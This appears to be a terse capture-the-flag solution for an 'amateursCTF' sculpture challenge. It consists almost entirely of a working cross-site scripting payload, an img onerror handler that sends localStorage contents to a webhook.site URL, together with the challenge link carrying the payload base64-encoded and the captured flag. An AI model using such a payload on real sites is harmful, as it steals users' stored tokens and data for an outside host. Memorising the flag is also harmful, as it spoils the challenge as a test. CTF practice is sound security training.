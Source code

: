 

print("<img src=x onerror=location.href=`https://webhook.site/4f858ea1-7b1d-4e60-be16-5394a6aa673a/?c=`+localStorage.getItem('flag')>")

https://amateurs-ctf-2024-sculpture-challenge.pages.dev/?code=cHJpbnQoIjxpbWcgc3JjPXggb25lcnJvcj1sb2NhdGlvbi5ocmVmPWBodHRwczovL3dlYmhvb2suc2l0ZS80Zjg1OGVhMS03YjFkLTRlNjAtYmUxNi01Mzk0YTZhYTY3M2EvP2M9YCtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgnZmxhZycpPiIp

amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}